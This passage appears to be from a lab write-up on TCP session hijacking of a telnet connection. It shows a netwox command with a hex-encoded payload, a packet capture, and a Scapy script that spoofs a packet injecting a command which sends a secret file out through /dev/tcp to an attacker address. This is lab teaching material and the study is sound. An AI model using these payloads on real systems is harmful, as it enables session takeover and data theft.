 ```
sudo netwox 40 -l "10.0.2.5" -m "10.9.0.5" -o 57640 -p 23 -q 1386528332 -E 2000 -r 1227064343 -z -H "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d"
```

And now we get the content of the secret file on the server:

![](./hijack_1.png)

## Scapy

Similarly, the task can be done with `scapy`.

Assume the last packet from the user to the server is:

> Transmission Control Protocol, Src Port: 57644, Dst Port: 23, Seq: 1727979555, Ack: 435127836, Len: 2
>     **Source Port: 57644**
>     Destination Port: 23
>     [Stream index: 3]
>     [TCP Segment Len: 2]
>     Sequence number: 1727979555
>     **[Next sequence number: 1727979557]**
>     **Acknowledgment number: 435127836**
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 229
>     [Calculated window size: 29312]
>     [Window size scaling factor: 128]
>     Checksum: 0xbfe0 [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]

Construct the spoofed packet using [`sessionhijack.py`](./sessionhijack.py):

```python
import sys
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET.........")
IPLayer = IP(src="10.0.2.5", dst="10.9.0.5")
TCPLayer = TCP(sport=57644, dport=23, flags="A",
               seq=1727979557, ack=435127836)
Data = "\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r"
pkt = IPLayer/TCPLayer/Data
ls(pkt)
send(pkt,verbose=0)
```

It also can steal the secret file:

![](./hijack_2.png)
